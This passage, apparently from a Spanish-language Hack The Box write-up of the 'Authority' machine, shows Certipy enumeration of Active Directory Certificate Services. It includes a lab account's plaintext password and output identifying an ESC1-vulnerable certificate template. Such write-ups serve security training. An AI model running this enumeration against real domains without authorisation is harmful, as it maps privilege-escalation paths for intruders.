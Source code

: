 Confirmamos la existencia de `ESC1 (Enrollment Services Configuration #1)` en el servicio `Active Directory Certificate Services (ADCS)` de la CA `AUTHORITY-CA`.

Usando `Certipy`, identificamos que el template `CorpVPN` tiene configurado el flag `ENROLLEE_SUPPLIES_SUBJECT` y permite autenticación de cliente (`Client Authentication`). Además, el grupo `HTB\Domain Computers` tiene permisos de inscripción sobre este template.

```bash
❯ certipy-ad find -u 'svc_ldap'@10.10.11.222 -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'AUTHORITY-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
```